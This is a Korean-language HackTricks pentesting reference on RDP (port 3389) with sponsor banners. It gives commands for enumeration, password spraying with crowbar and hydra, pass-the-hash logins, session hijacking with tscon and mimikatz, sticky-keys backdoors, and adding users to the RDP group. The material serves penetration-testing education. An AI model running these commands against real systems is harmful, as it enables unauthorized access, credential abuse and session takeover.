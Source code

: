 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행할 수 있으며, 이는 탐색에서 보고에 이르기까지 가능합니다. 우리는 침투 테스터를 대체하지 않으며, 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 기본 정보

Microsoft에서 개발한 **원격 데스크톱 프로토콜**(**RDP**)은 네트워크를 통해 컴퓨터 간의 그래픽 인터페이스 연결을 가능하게 하도록 설계되었습니다. 이러한 연결을 설정하기 위해 사용자는 **RDP** 클라이언트 소프트웨어를 사용하고, 동시에 원격 컴퓨터는 **RDP** 서버 소프트웨어를 운영해야 합니다. 이 설정은 원격 컴퓨터의 데스크톱 환경을 원활하게 제어하고 접근할 수 있게 하여, 본질적으로 그 인터페이스를 사용자의 로컬 장치로 가져옵니다.

**기본 포트:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## 열거

### 자동

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

사용 가능한 암호화 및 DoS 취약성을 확인하고(서비스에 DoS를 유발하지 않음) NTLM Windows 정보(버전)를 얻습니다.

### [무차별 대입 공격](../generic-methodologies-and-resources/brute-force.md#rdp)

**주의하세요, 계정이 잠길 수 있습니다**

### **비밀번호 스프레이 공격**

**주의하세요, 계정이 잠길 수 있습니다**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### 알려진 자격 증명/해시로 연결하기
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP 서비스에 대한 알려진 자격 증명 확인

impacket의 rdp\_check.py를 사용하면 일부 자격 증명이 RDP 서비스에 대해 유효한지 확인할 수 있습니다:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **공격**

### 세션 탈취

**SYSTEM 권한**으로 **어떤 사용자에 의해서든 열린 RDP 세션에** 접근할 수 있으며, 소유자의 비밀번호를 알 필요가 없습니다.

**열린 세션 가져오기:**
```
query user
```
**선택한 세션에 대한 접근**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
이제 선택한 RDP 세션에 들어가게 되며, Windows 도구와 기능만을 사용하여 사용자를 가장하게 됩니다.

**중요**: 활성 RDP 세션에 접근하면 해당 세션을 사용 중인 사용자가 강제로 로그아웃됩니다.

프로세스를 덤프하여 비밀번호를 얻을 수 있지만, 이 방법은 훨씬 빠르며 사용자의 가상 데스크탑과 상호작용할 수 있게 해줍니다 (비밀번호가 디스크에 저장되지 않은 메모장, 다른 머신에서 열린 다른 RDP 세션 등...).

#### **Mimikatz**

이 작업을 수행하기 위해 mimikatz를 사용할 수도 있습니다:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

이 기술을 **stickykeys** 또는 **utilman**과 결합하면 언제든지 관리 CMD와 모든 RDP 세션에 접근할 수 있습니다.

이 기술 중 하나로 백도어가 설정된 RDP를 검색할 수 있습니다: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

다른 도메인에서 또는 **더 나은 권한으로 RDP를 통해 로그인한** 사용자가 **당신이 관리자**인 PC에 접속하면, 그의 **RDP 세션 프로세스**에 당신의 비콘을 **주입**하고 그로 행동할 수 있습니다:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn**는 Microsoft Windows 컴퓨터에서 **Shadow** 공격을 자동화하기 위해 주로 설계된 Powershell로 생성된 포스트 익스플로잇 프레임워크입니다. 이 취약점(마이크로소프트에서 기능으로 나열됨)은 원격 공격자가 **피해자의 동의 없이 그의 데스크탑을 볼 수 있게** 하며, 심지어 운영 체제 자체의 도구를 사용하여 필요에 따라 이를 제어할 수 있게 합니다.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* 명령줄에서 자동화된 방식으로 마우스와 키보드 제어
* 명령줄에서 자동화된 방식으로 클립보드 제어
* RDP를 통해 대상에 네트워크 통신을 전달하는 SOCKS 프록시 클라이언트에서 생성
* 파일을 업로드하지 않고도 대상에서 임의의 SHELL 및 PowerShell 명령 실행
* 파일 전송이 대상에서 비활성화되어 있어도 대상에 파일을 업로드 및 다운로드

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
